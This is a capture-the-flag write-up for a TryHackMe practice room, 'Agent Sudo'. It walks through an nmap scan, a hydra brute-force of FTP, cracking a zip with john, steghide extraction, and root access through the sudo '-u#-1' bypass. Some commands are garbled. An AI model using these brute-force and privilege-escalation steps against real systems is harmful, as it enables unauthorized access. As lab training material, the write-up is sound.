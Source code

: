 # Agent Sudo

[Link to room](https://tryhackme.com/room/agentsudoctf)

###### Enumeration

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 04:35 EDT
Nmap scan report for agent-sudo (10.10.158.237)
Host is up (0.33s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.41 seconds
```

1. 3

2. 
```change user-agent by firefox add-on (user agent switcher to C)
user-?????
```
3. 
```by changing user agent
<redacted>
```

## Hash Cracking and brute-forcing
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agent-sudo
```
1. found by using hydra
```
[21][ftp] host: agent-sudo   login: chris   password: <redacted>
```
2. 
```TO_agentJ
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
```bash
zip2john 8702.zip > forjohn
john --wordlist=/usr/share/wordlist/rockyou.txt forjohn 
```
```zip
<redacted>
```
```To_agentR
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
```bash
echo QXJlYTUx > bas364 -d
```
```
<redacted>
```
3. 
```bash
steghide extract -sf cute_alien.jpg
<redacted>
```
```message.txt from cute_jpg.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
```
<redacted>
```

## Capture the user flag
1. 
```bash
ssh james@agent-sudo
```
```user-flag
<redacted>
```
```by using google reverse image to search the Alien_autopsy.jpg
****** alien ******
```

## Privilege Escalation

```firefox cve sudo
CVE-2019-*****
```
```bash
sudo -u#-1 /bin/bash
```
```root_flag
<redacted>
```
```a.k.a AgentR
<redacted>
```
